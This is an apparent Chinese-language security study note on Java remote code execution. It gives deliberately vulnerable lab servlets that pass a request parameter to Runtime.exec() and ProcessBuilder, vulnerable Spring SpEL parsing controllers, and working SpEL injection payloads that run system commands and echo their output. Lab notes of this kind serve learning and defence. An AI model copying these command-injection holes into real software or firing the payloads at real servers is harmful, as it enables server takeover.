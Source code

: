 ﻿---
title: RCE-Java
categories:
- Network_Security
- Web
- RCE-Java
tags:
- Network_Security
date: 2024-01-23 15:52:52
---

# RCE-Java

## 1. `exec()` 执行系统命令

1. 涉及函数 `Runtime.getRuntime().exec()`

2. 有漏洞的代码：
    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 Runtime.getRuntime().exec() 来执行系统命令
     * @date 2023/4/4 14:34
     */
    @WebServlet("/exec")
    public class RceExecController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            // 给页面回显内容的变量
            StringBuilder stringBuffer = new StringBuilder();
            // 用包装类获取命令执行后的结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuffer.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuffer);
        }
    }
    ```

3. `Runtime` 类：

    > Every Java application has a single instance of class Runtime that allows the application to interface with the environment in which the application is running. The current runtime can be obtained from the getRuntime method.

4. 该靶场运行结果如下：
    ![image-20230404145024885](image-20230404145024885.png)

## 2. `ProcessBuilder` 对象通过 `start()` 方法执行系统命令

1. 涉及的类和函数：`ProcessBuilder` 类、`ProcessBuilder` 对象的 `start()` 方法。

2. 实际上，`Runtime.getRuntime().exec()` 的本质上是调用了 `ProcessBuilder` 的 `start()` 方法：
    ![image-20230404145530933](image-20230404145530933.png)

3. 靶场：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 ProcessBuilder.start() 来执行系统命令
     * @date 2023/4/4 14:53
     */
    @WebServlet("/pb")
    public class RcePbController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            StringBuilder stringBuilder = new StringBuilder();
    
            String[] cmdWithArgs = {cmd};
            // processBuilder 的实例化需要传入 list 或者 String[]，用来存放一条命令及其参数
            ProcessBuilder processBuilder = new ProcessBuilder(cmdWithArgs);
            // 执行命令
            Process process = processBuilder.start();
            // 获取被包装的 process 执行结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuilder.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuilder);
        }
    }
    ```

4. 结果：
    ![image-20230404150816050](image-20230404150816050.png)

## 3. 使用 SpEL 表达式

### 3.1 不带回显的情况

1. > Spring 官方为我们提供了一套非常高级 SpEL 表达式，通过使用表达式，我们可以更加灵活地使用 Spring 框架。

2. 使用 SpringBoot 搭建一个简易的靶场：
    ```java
    package com.endlessshw.spelrce.controller;
    
    import org.springframework.expression.Expression;
    import org.springframework.expression.spel.standard.SpelExpressionParser;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RestController;
    
    import java.util.Objects;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: SpEL RCE 靶场
     * @date 2023/4/4 15:15
     */
    @RestController
    @RequestMapping("/rce")
    public class SpEL_RceController {
        @GetMapping("/spel")
        public String SpELRce(String cmd) {
            // 创建一个 Spel 表达式解析器
            SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
            // 根据传入的 cmd 来创建表达式
            Expression expression = spelExpressionParser.parseExpression(cmd);
            return Objects.requireNonNull(expression.getValue()).toString();
        }
    }
    ```

3. payload:
    `http://localhost:8080/rce/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%22control.exe%22)`
    cmd 传入的内容基本上和 Java 语法相似。由于 `Runtime` 是外部类，因此还需要 `T(类的全路径名).方法()` 来执行代码。
4. 结果：
    ![image-20230404153506298](image-20230404153506298.png)

### 3.2 带回显的情况 -- （少，前提是需要代码将 expression 的结果给 return 出来）

1. 上述靶场中，只使用了最基本的 SpEL 表达式解析器。如果源码中构造了上下文来丰富功能，那么攻击者此时也可以利用上下文“丰富功能”的特性，将结果打印出来。

2. 靶场代码：
    ```java
    @GetMapping("/spelcontext")
    public String SpELRceWithContext(String cmd) {
        // 创建一个 Spel 表达式解析器
        SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
        // 构造上下文，准备表达式需要的上下文数据（用于自定义变量、函数、类型转换器等）
        // Create a new TemplateParserContext with the default "#{" prefix and "}" suffix.
        // 翻译过来就是用 #{} 创建上下文环境，里面的内容就是上下文
        TemplateParserContext templateParserContext = new TemplateParserContext();
        // 根据传入的 cmd 来创建表达式
        Expression expression = spelExpressionParser.parseExpression(cmd, templateParserContext);
        return Objects.requireNonNull(expression.getValue()).toString();
    }
    ```

3. Payload（如果通过 GET 传，要 Url 编码一下）:
    `#{new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir").start().getInputStream(), "GBK").useDelimiter("x").next()};`
4. Payload 解析：
    1. 创建一个 Scanner 类
    2. 用 Scanner 的构造函数：
        ![image-20230404164227873](image-20230404164227873.png)
    3. 使用 `useDelimiter("")` 方法来划界，然后用 `next()` 方法来返回 `Scanner` 中扫描的字符串。
        这里 `useDelimiter("")` 内的内容尽量复杂，这样它分界就分一个界，然后 `next()` 获取全部内容。
5. 当然，如果出现这种情况，可以先使用 `#{算数表达式}` 来看其是否将表达式的结果返回，从而判断其是否存在 RCE：
    Payload：`#{2+2}`（记得 Url 编码）
    ![image-20230404165810531](image-20230404165810531.png)

